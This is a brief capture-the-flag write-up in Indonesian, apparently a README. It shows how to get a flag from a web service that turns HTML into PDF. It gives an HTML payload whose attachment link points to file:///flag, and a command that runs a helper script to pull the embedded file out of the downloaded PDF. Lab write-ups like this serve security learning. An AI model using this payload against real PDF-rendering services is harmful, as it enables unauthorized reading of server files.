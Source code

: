 - Membuat HTML embed tag untuk read file. Dan expose ke publik.
  ```
  <!DOCTYPE html>
  <html>
  <head>
  <title>Captain</title>
  </head>
  <body>
  <a rel='attachment' href='file:///flag'>
  </body>
  ```

- Masukin URL ke web dan download pdf, pake script yg di direktori ini buat extract hasil.
  ```
  python ape.py ed7dccacd87e99f11dcc2dafaa170f69.pdf
  ```
